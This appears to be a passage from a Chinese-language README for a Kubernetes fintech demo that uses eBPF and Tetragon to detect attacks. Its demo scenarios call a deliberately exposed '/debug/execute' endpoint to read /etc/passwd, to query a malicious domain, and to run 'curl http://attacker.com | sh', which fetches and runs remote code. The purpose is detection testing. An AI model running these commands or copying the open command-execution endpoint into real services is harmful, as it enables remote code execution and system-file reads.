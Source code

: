 ### 場景1: 正常業務流程
1. **用戶登錄** → 查看投資組合
2. **創建訂單** → 風險評估 → 訂單執行
3. **實時監控** → eBPF記錄正常業務行為

### 場景2: 文件訪問攻擊
```bash
# 觸發文件訪問監控
curl -X POST http://localhost:30080/debug/execute \
  -d '{"command":"cat","args":["/etc/passwd"]}'

# 觀察Tetragon事件
kubectl logs -f -n kube-system -l app.kubernetes.io/name=tetragon
```

### 場景3: 網絡安全威脅
```bash
# 觸發外部DNS查詢監控
curl -X POST http://localhost:30081/debug/execute \
  -d '{"command":"nslookup","args":["malicious-domain.com"]}'
```

### 場景4: 命令注入攻擊
```bash
# 觸發命令執行監控
curl -X POST http://localhost:30082/debug/execute \
  -d '{"command":"sh","args":["-c","curl http://attacker.com | sh"]}'
```

## 📁 項目結構

```
fintech-ebpf-demo/
├── k8s/                        # Kubernetes + eBPF 部署配置
│   ├── deploy.sh              # 一鍵部署腳本
│   ├── scripts/               # 部署腳本集合
│   ├── manifests/             # K8s資源配置
│   │   ├── database/          # 數據庫服務
│   │   ├── microservices/     # Go微服務
│   │   └── frontend/          # 前端服務
│   └── tetragon/              # Tetragon安全策略
│       └── policies/          # eBPF監控策略
├── frontend/                   # React前端應用
│   ├── src/                   # 源代碼
│   │   ├── components/        # React組件
│   │   ├── pages/             # 頁面組件
│   │   └── services/          # API服務
│   ├── build.sh               # 前端構建腳本
│   ├── Dockerfile             # 容器化配置
│   └── package.json           # 依賴配置
├── microservices/             # Go微服務 (階段1完成)
│   ├── trading-api/           # 交易API服務
│   ├── risk-engine/           # 風險評估引擎
│   ├── payment-gateway/       # 支付網關
│   └── audit-service/         # 審計服務
└── docs/                      # 項目文檔
    ├── architecture.md        # 系統架構文檔
    ├── security.md            # 安全功能說明
    └── deployment.md          # 部署指南
```
